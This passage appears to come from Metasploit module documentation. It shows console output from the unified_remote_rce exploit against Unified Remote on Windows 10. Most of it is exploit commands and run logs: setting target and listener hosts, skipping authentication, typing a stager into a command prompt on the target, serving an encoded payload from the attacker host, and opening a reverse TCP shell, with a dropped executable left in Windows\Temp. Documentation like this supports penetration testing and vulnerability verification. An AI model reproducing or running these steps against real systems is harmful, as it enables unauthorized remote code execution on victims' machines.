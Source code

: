 ```
[!] 2.2.2.2:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\2NzuxPbY6fGK9FdNy.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>
```

### Version 3.11.0.2483 on Windows 10, no authentication, no web server access, visible true

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unified.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (unified.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:9512 - Client name set to: android-EIC1Bc3pwL4U4Pnj
[*] 2.2.2.2:9512 - Retrieving server config
[-] 2.2.2.2:9512 - Web interface is disabled. Unable to attempt bypass, assuming no authentication.
[*] 2.2.2.2:9512 - Sending handshake
[*] 2.2.2.2:9512 - Sending empty authentication
[*] 2.2.2.2:9512 - Opening Start Menu
[*] 2.2.2.2:9512 - Opening command prompt
[*] 2.2.2.2:9512 - Typing out payload
[*] 2.2.2.2:9512 - Using URL: http://1.1.1.1:8080/
[*] 2.2.2.2:9512 - Attempting to open payload
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:60829) at 2022-09-08 17:00:30 -0400
[*] 2.2.2.2:9512 - Server stopped.
[!] 2.2.2.2:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\QD7V9rLaWUwvPIY.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>
```
